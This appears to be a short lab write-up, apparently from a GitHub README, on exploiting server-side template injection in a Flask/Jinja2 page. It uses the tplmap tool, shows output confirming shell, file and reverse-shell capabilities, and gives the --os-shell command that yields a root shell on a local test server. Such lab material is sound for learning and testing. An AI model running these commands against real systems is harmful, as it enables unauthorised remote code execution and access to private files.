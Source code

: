 ## Flask Jinja2 SSRF (gaining remote shell access)

Using tlpmap a SSTI exploit framework found at: https://github.com/epinna/tplmap 

We can use tlpmap to help discern what parts of ssti the flask page is vulnerable to

In the case of http://10.0.0.19:5000/ssti?name=drew we can test and see if it is vulnerable to specific attacks

To test for attacks execute commands python tplmap.py -u "http://10.0.0.19:5000/ssti?name=drew" and get return results similar to this:

```
dgallis@dgserv:~/tplmap-master$ sudo python tplmap.py -u "http://localhost:5000/ssti?name=John"
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code
```

Based on the return output we can see that this Jinja2 Render Template is vulnerable to remote shell access!

To get remote shell access to access internal files we can execute command:

```
python tplmap.py -u "http://localhost:5000/ssti?name=John" --os-shell
```

One the command is executed you should recieve a shell of the flask app which allows you to traverse and view all local files since the `whoami` user is root.